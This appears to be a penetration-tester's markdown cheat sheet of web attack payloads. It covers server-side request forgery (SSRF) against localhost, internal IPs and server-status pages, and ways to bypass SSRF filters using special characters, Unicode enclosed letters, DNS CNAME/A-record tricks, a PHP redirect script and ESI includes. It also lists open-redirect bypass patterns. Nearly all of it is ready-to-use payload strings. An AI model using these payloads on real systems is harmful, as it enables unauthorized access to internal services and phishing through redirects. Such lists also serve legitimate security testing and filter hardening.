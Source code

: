 ## SSRF 
### Basic Attack
```
?url=http://localhost/server-status
?url=http://127.0.0.1/server-status
?url=http://internal_domain/page
?url=http://internal_ip(192.138.0.14)/page

?callback=https://www.hahwul.com
```
### Bypass SSRF with speical char
```
?url=http://allow_domain.internal_domain_or_ip/page
?url=http://allow_domain@internal_domain_or_ip/page
?url=http://internal_domain_or_ip#.allow_domain/page
?url=http://internal_domain_or_ip?.allow_domain/page
?url=http://internal_domain_or_ip\.allow_domain/page
?url=https://ⓦⓦⓦ.ⓗⓐⓗⓦⓤⓛ.ⓒⓞⓜ = www.hahwul.com

[ List ]
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Bypass SSRF Domain CNAME & A-Record
```
[ CNAME ]
http://localhost.hahwul.com/server-status

$ nslookup localhost.hahwul.com
localhost.hahwul.com	canonical name = localhost.
Name:	localhost
Address: 127.0.0.1


[ A-Record ]
http://127.hahwul.com/server-status
```
post link
- https://www.hahwul.com/2019/02/bypass-ssrf-protection-using-domain-cname-arecord.html

### Bypass SSRF HTTP Redirect
```php
?url=http://your-domain/r.php

[ r.php ]
<?php
header('Location: http://127.0.0.1:8080/server-status');
?>
```
post link
- https://www.hahwul.com/2019/02/bypass-ssrf-protection-using-http-redirect.html

### SSRF with ESIi
```
<esi:include src=http://127.0.0.1/server-status/>
<esi:include src=http://internal_domain/server_base_csrf_page/>
```

## Open Redirect(URL Redirection)
### Basic Attack
```
?url=https://www.hahwul.com
```
### Open Redirect bypass pattern
```
?url=https://allow_domain.hahwul.com
?url=https://allow_domain@hahwul.com
?url=https://www.hahwul.com#allow_domain
?url=https://www.hahwul.com?allow_domain
?url=https://www.hahwul.com\allow_domain
?url=http:///////////www.hahwul.com
?url=http:\\www.hahwul.com
?url=http:\/\/www.hahwul.com
```
